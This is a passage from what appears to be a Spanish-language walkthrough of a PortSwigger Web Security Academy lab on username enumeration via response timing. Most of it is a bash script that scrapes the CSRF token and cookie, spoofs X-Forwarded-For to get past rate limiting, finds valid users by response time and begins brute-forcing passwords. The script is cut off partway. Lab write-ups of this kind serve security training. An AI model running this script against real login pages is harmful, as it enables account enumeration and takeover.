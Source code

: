 Nos logeamos e ingresamos a la seccion **My acount**.

![verify](img10.png)

## 3. Lab: Username enumeration via response timing

```bash
https://ac591f871e61f7ab805b171800bf006e.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Escribiendo el script, tendremos el siguiente.

```bash
#!/bin/bash

URL='https://ac591f871e61f7ab805b171800bf006e.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
PASS=`python -c "print 'A'*2000"`
#USER="wieners"

N=1

for USER in `cat user.txt`;do

	DATA='csrf='$CSRF'&username='$USER'&password='$PASS
	RESULT=`curl $URL -d $DATA -b $COOKIE -H "X-Forwarded-For: 192.168.0.$N" -w %{time_total} -o $NULL -s`
    TIME=`echo $RESULT | cut -d "." -f 1`
    
    if [[ $TIME -gt 5 ]]
    then
        echo "Valid user: $USER"
        break
    else
        echo "Invalid user: $USER"
    fi
    
	N="$[ $N + 1 ]"
done

for PASS in `cat password.txt`;do

        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s -H "X-Forwarded-For: 192.168.0.$N"`

        if echo $RESULT | grep -o "password" > $NULL
```